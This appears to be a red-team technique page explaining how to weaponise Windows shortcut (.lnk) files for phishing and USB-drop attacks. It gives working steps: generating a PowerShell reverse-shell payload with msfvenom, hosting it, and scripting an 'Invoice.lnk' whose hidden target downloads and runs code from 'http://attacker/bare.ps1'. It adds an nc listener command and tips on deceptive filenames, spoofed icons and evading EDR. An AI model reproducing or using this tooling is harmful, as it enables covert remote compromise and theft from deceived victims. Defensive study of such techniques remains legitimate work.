

# LNK (Shortcut) Files

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows
**Prerequisites:**  user must click on the malicious shortcut file


---
## Overview

  This technique leverages Windows `.lnk` files (shortcuts) to execute malicious commands or payloads when a user clicks on the shortcut. It’s especially effective in phishing or USB drop scenarios where the file appears benign.


---
## How It Works

**LNK Files** Also known as a "link" file, the Windows Shortcut File (LNK) is a Windows proprietary format specification that allows users to create a graphical **pointer** to a file,
command, network share, etc...
LNK files are usually created automatically in the "recent files" or "quick access"
section of the Windows Explorer. They can also be created on demand by right
clicking a file and selecting "create shortcut"

As mentioned above, shortcut files are really just pointers to another resource. This
makes it very easy to use LNK files to :
- run specific cmd.exe commands
- run a PowerShell ‘one-liner’
- execute hidden files in a directory.

Another attribute of shortcut files is that even with “Hide Extensions for Known File
Types” disabled, shortcut files never show the “.lnk” extension. This can ease phishing
attacks as the shortcut and the actual file are almost identical in appearance.

 The malicious logic is hidden in the shortcut’s **target** path or embedded scripts. 
 Execution can occur without any visual clue to the user.


---
## Prerequisites

- Target OS: Windows
- User Interaction: Yes (user must click the shortcut)
- Network Connectivity: Often required (for downloading payloads)
- Dependencies or Tools:
    - Windows machine (to craft the malicious shortcut file)
   

---
## Steps to Implement

1. **Prepare Your Payload**
i tend to use a simple `.ps1` powershell reverse-shell payload. you can use **metasploit**  for this step. 

2. **Host the payload** 
use :
```shell
python3 -m http.server 80
```
3. **Create the Malicious Shortcut**
 you can craft the shortcut manually with the GUI :

1 - Create a new shortcut by Right click then click **New** > **Shortcut** 


2 - then edit the properties of the shortcut and Customize Appearance: 


set "Run:" to **Minimized**, for stealth .


change the icon.


embed the command you want to execute ( stager ) in the **Target** field.

then click **apply** and **ok**


or create the shortcut using a powershell script :
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\Invoice.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/bare.ps1')"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,3"
$Shortcut.Save()
```


4. **Deliver to the Target**
  - Phishing email
  - USB drop
  - Shared folder / drive
  
5.  **Set Up Listener**
- make sure the listener is up and running ( listening for incoming connection )
 ```shell
 nc -nlvp 9001
```

6. **Execution**
- When the user clicks the `.lnk` file, the command runs silently and retrieves our payload and executes it, resulting in a reverse shell being established.


---

## Payload/Code Snippets

- **generate a payload using `powervoodoo`** 
```shell
# Example using powervoodoo to generate a reverse shell payload 
./powervoodoo.sh lhost=<host> lport=<port> os=windows
```

- **generate a payload using `msfvenom`** 
```shell
msfvenom -p windows/powershell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh -o shell.ps1

```

- **One liner payload to embed within the shortcut file**
```shell
C:\Windows\System32\cmd.exe /c powershel -c "Start-Process notepad.exe ; powershell -w 1 -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://127.0.0.1:8000/payload.ps1)\" "
```

- **create a malicious shortcut file using powershell** 
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\Invoice.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/bare.ps1')"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,3"
$Shortcut.Save()
```


---
## Tips

- Use misleading filenames like `Invoice.lnk` or `HR_Policy_Update.lnk`.
- Customize icons to mimic trusted applications (e.g., Word, PDF, Excel).
- Combine with an autorun or USB drop for physical delivery.
- Some EDRs detect `.lnk` anomalies, test carefully in a lab before deployment.


---
## References

-  [Using LNK Files for Initial Infection](https://www.cybereason.com/blog/threat-analysis-taking-shortcuts-using-lnk-files-for-initial-infection-and-persistence)
- [john hammond YOUTUBE](https://youtu.be/RLtMxN5q_cQ?si=xnKBzQ7-5-79V2mq)


---

***Author*** : **o-sec**
